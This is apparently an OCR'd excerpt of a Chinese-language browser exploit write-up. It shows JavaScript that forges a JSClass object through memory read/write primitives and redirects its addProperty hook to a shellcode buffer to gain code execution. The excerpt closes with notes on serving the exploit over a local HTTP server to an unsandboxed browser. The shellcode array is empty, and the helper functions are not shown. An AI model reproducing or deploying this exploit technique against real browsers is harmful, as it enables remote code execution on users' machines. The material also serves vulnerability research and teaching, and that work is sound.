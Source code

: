 ```javascript
oOps = jsClass.slice(56,64)

add(group,new data("0x60"))
backingbuffer = group.slice(0,8)  //保存原本的group属性的地址
//开始构造新的JSClass对象并保存在grop-->JSClass-->Ops链上
oops = group.slice(0,8)

add(oops,new data("0x30"))

write1(group,name)  
addEight()          //每次地址偏移8到下一个地址
write1(group,flags)
addEight()

write1(group,cOps)
addEight()
write1(group,spec)
addEight()
write1(group,ext)
addEight()
write1(group,oOps)
addEight()

write1(group,jitaddr)  //Jsclass连续的下面就是对象的Ops属性,让第一个addProperty指向我们的shellcode地址
 

sc_buffer = new Uint8Array(0x1000);
buf[7].asdf=sc_buffer     //创建一个Uint8Array来保存shellcodem,创建新的属性把这个sc_buffer的地址写入到下一个slots属性处

add(slots_ptr,eight)     //偏移8到新的asdf属性处
sc_buffer_addr = read(slots_ptr)  //读取adsf地址,此时就是shellcode 的缓冲区的地址

add(sc_buffer_addr,new data("0x38"))   //添加 0x38 就获得存储原始 shellcode 的缓冲区的地址。

ptr = read(sc_buffer_addr)    //以函数指针的形式获取这块区域的地址
ss=inttod(ptr)       //转换为8字节来,以地址的形式来操作值
sc=[]        //Shellcode for execve("/usr/bin/xcalc",[],["DISPLAY=:0"])

for(var i=0;i<sc.length;i++)
  sc_buffer[i]=sc[i]            //把execv的shellcode写入sc_buffer


write1(aa,backingbuffer)  //向aa对象的grop属性写入构造好的Class 对象的引用, 该对象的cOps属性的addProperty指针指向我们的shelcode地址
buf[7].jjj=ss    //添加新属性来触发shelcode执行
```



# 攻击
## poc现场
在 ubuntu 里建了一个文件夹，里面放入 exp.js 和 exp.html，然后在终端里执行 python 的 http.server 命令，无沙箱运行浏览器，访问对应的 ip 地址和端口号就成功了，如下图
